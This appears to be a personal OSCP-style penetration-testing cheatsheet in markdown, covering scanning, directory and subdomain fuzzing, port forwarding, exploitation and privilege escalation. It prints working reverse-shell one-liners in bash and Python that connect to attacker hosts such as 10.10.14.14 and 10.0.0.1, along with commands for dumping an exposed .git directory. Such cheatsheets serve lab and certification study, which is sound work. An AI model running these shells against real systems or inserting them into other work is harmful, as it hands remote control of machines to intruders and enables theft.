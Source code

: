 ```yaml
---
title : "Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-22 11:30:00 +0800
categories: [Cheatsheet]
tags: [nmap,gobuster,ffuf,jadx,linpeas,dnspy,zeek,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### Nmap

```shell
nmap -sV -sC --min-rate=1000 -p- <IP> -o nmap
```

### Gobuster



```shell
Dirsearch
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS>
Break status code
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS> -b <BREAK_STATUSCODE>
```

### ffuf

```shell
Subdomain search
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H “Host: FUZZ.site.com” -u http://site.com
```

### fscan
Scan host in network
Shadow1ng/fscan (github.com)
```shell
./fscan -h 172.0.0.1/24
```

### Zeek with pcap
```shell
zeek -Cr 0.pcap
```
However password in zeek is <hidden> to config for zeek to show in [Ippsec-Cap](https://www.youtube.com/watch?v=O_z6o2xuvlw)

### SSH Port Forwarding

```shell
ssh -L <PORT IN LOCAL>:<IP>:<PORT IN SERVER> username@<IP SERVER>
```

# Exploit

### Bash reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python reverse shell

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
### Stable reverse shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### GitHack - Exploit ```.git``` 
 lijiejie/GitHack: Khai thác tiết lộ thư mục `.git` (github.com)
```shell
Githack
python GitHack.py http://site.htb/.git/
```
### Hash Identifier
``` shell 
hash-identifier  
┌──(kali㉿kali)-[~/TCM/TCM03_Academy]
└─$ hash-identifier            
/usr/share/hash-identifier/hash-id.py:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH:
```
# Privilege Escalation 

### Check sudo file permissions

```shell
sudo -l
```
### Tools
- linpeas
- pspy - https://github.com/DominicBreuker/pspy - Show all process run in linux 

### Reverse shell
```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# Reverse Tools

## C# and .NET
- [*dnSpy*](https://github.com/dnSpy/dnSpy)
![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_reverse_tearordear_username.png)
# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
